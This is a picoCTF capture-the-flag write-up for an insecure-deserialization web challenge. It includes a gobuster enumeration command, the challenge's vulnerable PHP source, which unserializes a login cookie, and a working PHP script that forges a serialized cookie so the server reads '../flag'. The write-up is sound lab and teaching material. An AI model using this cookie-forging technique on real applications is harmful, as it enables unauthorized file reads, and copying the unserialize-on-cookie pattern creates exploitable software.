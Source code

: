 # URL
https://play.picoctf.org/practice/challenge/180?category=1&difficulty=2&page=2&search=
# Category
Web App Hacking
# Concept
* insecure deserialization
# Method of solve
* there is a number of endpoints we need to discover on this app, including phps pages:
```
gobuster dir -u http://mercury.picoctf.net:8404/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,phps
```
* we discover `authenticate.php`, `authenticate.phps` and `index.php` and `index.phps`
* phps pages are php pages that show their contents and do not execute code
* when we look at the code for the `authenticate.phps` we see the following code
```
<?php

class access_log
{
	public $log_file;

	function __construct($lf) {
		$this->log_file = $lf;
	}

	function __toString() {
		return $this->read_log();
	}

	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```
* this seems to indicate that this page will give you a different message depending on whether the cookie contents includes the is_admin setting set to True
* when we look at the `cookie.phps` page, we see this code
```
<?php
session_start();

class permissions
{
	public $username;
	public $password;

	function __construct($u, $p) {
		$this->username = $u;
		$this->password = $p;
	}

	function __toString() {
		return $u.$p;
	}

	function is_guest() {
		$guest = false;

		$con = new SQLite3("../users.db");
		$username = $this->username;
		$password = $this->password;
		$stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
		$stm->bindValue(1, $username, SQLITE3_TEXT);
		$stm->bindValue(2, $password, SQLITE3_TEXT);
		$res = $stm->execute();
		$rest = $res->fetchArray();
		if($rest["username"]) {
			if ($rest["admin"] != 1) {
				$guest = true;
			}
		}
		return $guest;
	}

        function is_admin() {
                $admin = false;

                $con = new SQLite3("../users.db");
                $username = $this->username;
                $password = $this->password;
                $stm = $con->prepare("SELECT admin, username FROM users WHERE username=? AND password=?");
                $stm->bindValue(1, $username, SQLITE3_TEXT);
                $stm->bindValue(2, $password, SQLITE3_TEXT);
                $res = $stm->execute();
                $rest = $res->fetchArray();
                if($rest["username"]) {
                        if ($rest["admin"] == 1) {
                                $admin = true;
                        }
                }
                return $admin;
        }
}

if(isset($_COOKIE["login"])){
	try{
		$perm = unserialize(base64_decode(urldecode($_COOKIE["login"])));
		$g = $perm->is_guest();
		$a = $perm->is_admin();
	}
	catch(Error $e){
		die("Deserialization error. ".$perm);
	}
}

?>
```
* We see the cookie uses the `unserialize` function, so we can use this code to create a malicious cookie
```
<?php

class access_log {
	public $log_file;
	function __construct($lf) { $this->log_file = $lf; }
	function __toString() { return $this->read_log(); } 
}

$malicious_obj = new access_log("../flag");
$cookie = urlencode(base64_encode(serialize($malicious_obj)));
echo $cookie; // TzoxMDoiYWNjZXNzX2xvZyI6MTp7czo4OiJsb2dfZmlsZSI7czo3OiIuLi9mbGFnIjt9

?>
```
* go to the `authenticate.php` page and set the cookie to the one created by the above code
* upon reload, contents of the flag will be displayed
